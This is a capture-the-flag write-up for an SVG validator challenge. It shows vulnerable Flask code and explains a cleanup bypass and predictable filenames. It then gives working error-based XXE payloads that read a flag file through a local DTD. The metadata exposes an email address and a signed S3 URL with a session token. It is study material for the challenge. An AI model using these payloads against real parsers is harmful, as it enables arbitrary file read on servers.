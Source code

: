```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466SBLAD6K7%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T133625Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDYaCXVzLXdlc3QtMiJIMEYCIQDxdK02bwlrMTdnNMEcCD5exmVrKWcsA0IHqUSHP4gV%2FgIhAIvXsBuH30gbrPFVmyog9UbEOTA7QqqCkVBmU4bw%2FB4DKogECO%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1IgwPA40YPqn1OwxlmWUq3AMUravsexInrX%2FvR70fOOhVS69sVpfAt6X6YAVGKSNzwK5LJkW2vBXnbb72T5kyCHvpFLwsoJudkDW915vVpLUX2T7Hf%2FYwf%2FQdNa6nAybjrtBhRBcgBBVLZog6rJ4cr1sVVU5IfBBUk4fxj%2Bqe5mexupoMsgm4qFv%2FuR3l7QmlAER8Y8IrpUsq6Og9KBdxKuA103XNQYMgBalDf4Pzma9JIhT%2B9%2BfUg29wHI%2BPL0F7QjDobNnbEA9H0V2gxSVMVmz0hYq2PbPzT2R0cfHeuQC%2Bk2YO%2F5UgA0iC9DNkje8cEuKHm6kbvYci6GhS5teRp1TRHRYzXZ4Gsnn2tOMeCnq8toaz1twCCKSCRXKWDVoKkmrj8iqsJg2UJGO5qz2z3IQRT4tXsOy5m7XnSG3rMP2I%2BerPEH4RzuXoOz8zqt2E0T3tUfsUxMS1PB1xqKWA3yao1M6U9aLQ2mEwe%2FRzpZBRmKJI5D8n9SEKVoBW4cX8PL7NrzZlNeqjSvqT%2Fn70SRGcmXdo%2Bf1uk79NCx1YooBsDNATFUzqZ%2BCdSPpfJqwbW0CA3CXBf6jkyCvu8gl1iia3glcEJHc0wFuj19nQx1352FM%2Byz4oQWplNLATwyJFXfBHIyujDXkKsV7P1DDz8cHBBjqkAdSlfD5GsG6xKbg2B4ZmhDB1Dnz5x8KrxI%2F5XhuWQgM3vKXvPvx1C9eGgRSS0ep10WGD2FNEWZVfPpZl6u6%2BeJSBimsB5in5rWxNniLBNTN6yDjsHC4L7zGvEfYd3X2htLb4shd%2F%2FgoyAHkwq9lQwdzKBKdyqOB6peViR5vwggNinyxKQDkAtglXBpRnzQuyV2Kty5TLneir9rpCvmz6mBqLSu3d\&X-Amz-Signature=86f1e1104cbf4507164dccd27d1f47c55964545b284a39c5dd2be8303f2ae1ca\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
